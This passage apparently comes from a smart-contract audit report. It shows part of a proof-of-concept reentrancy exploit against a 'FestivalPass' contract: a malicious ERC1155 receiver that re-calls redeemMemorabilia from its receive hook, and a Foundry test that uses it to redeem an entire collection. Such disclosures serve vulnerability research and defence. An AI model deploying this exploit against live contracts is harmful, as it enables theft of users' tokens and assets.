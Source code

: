 ```Solidity
            ,
            ,
            ,
            uint256 maxSupply,
            uint256 currentItemId,

        ) = festival.getCollections(collectionId);

        if (currentItemId < maxSupply) {
            festival.redeemMemorabilia(collectionId);
        }
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(
        address operator,
        address from,
        uint256[] calldata ids,
        uint256[] calldata values,
        bytes calldata data
    ) external override returns (bytes4) {
        return this.onERC1155BatchReceived.selector;
    }

    function supportsInterface(bytes4 interfaceId) external pure override returns (bool) {
        return true;
    }
}
```

Paste this in your `FestivalPassTest.t.sol` contract

```solidity

function test_MaliciousRecieverRedeemsAllMemorabilia() public {
        // Organizer creates a memorabilia collection
        vm.startPrank(organizer);
        uint256 collectionId = festivalPass.createMemorabiliaCollection(
            "Golden Hats",
            "ipfs://QmGoldenHats",
            500e18,
            10,
            true
        );
        vm.stopPrank();

        // Attacker deploys a malicious receiver contract
        // This contract will try to redeem all items in the collection
        vm.startPrank(attacker);
        MaliciousReceiver maliciousReceiver = new MaliciousReceiver(address(festivalPass), collectionId);
        vm.stopPrank();

        // assuming the malicious receiver has accumulated enough BEAT tokens over time
        vm.startPrank(address(festivalPass));
        beatToken.mint(address(maliciousReceiver), 100000e18); 
        vm.stopPrank();

        // The attacker starts the attack by calling redeemMemorabilia
        vm.startPrank(attacker);
        maliciousReceiver.startAttack(10); // Start attack to redeem all items
        vm.stopPrank();

        // The malicious receiver will keep calling redeemMemorabilia until all items are redeemed
```